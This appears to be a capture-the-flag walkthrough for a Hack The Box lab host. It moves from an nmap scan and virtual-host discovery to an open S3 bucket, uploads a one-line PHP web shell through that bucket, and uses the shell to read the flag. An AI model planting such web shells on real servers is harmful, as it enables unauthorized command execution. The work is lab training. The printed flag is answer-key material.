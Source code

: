 `nmap -sv {target_ip}`

```
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.129.75.118 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-26 15:26 EST
Nmap scan report for thetoppers.htb (10.129.75.118)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```
`sudo nano /etc/hosts`

Add:

`10.129.75.118 thetoppers.htb`

`gobuster vhost -w SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

Found dns:

`s3.thetroppers.htb`

add to etc/hosts
`10.129.75.118 s3.thetoppers.htb`

```
┌──(kali㉿kali)-[~]
└─$ aws configure                 
AWS Access Key ID [****************a]: a
AWS Secret Access Key [****************a]: a
Default region name [a]: a
Default output format [a]: a
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls s3://thetroppers.htb

Could not connect to the endpoint URL: "https://s3.a.amazonaws.com/thetroppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
                           PRE images/
2022-11-26 15:04:11          0 .htaccess
2022-11-26 15:04:11      11952 index.php
```

```
cd Desktop
sudo nano shell.php
file: <?php system($_GET['cmd']); ?>
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb/shell.php
upload: ./shell.php to s3://thetoppers.htb/shell.php 
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb           
                           PRE images/
2022-11-26 15:04:11          0 .htaccess
2022-11-26 15:04:11      11952 index.php
2022-11-26 15:39:59         31 shell.php
```

```
http://thetoppers.htb/shell2.php?cmd=ls
images index.php shell.php shell2.php 
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://thetoppers.htb/shell2.php?cmd=cat+../flag.txt 
a980d99281a28d638ac68b9bf9453c2b
```







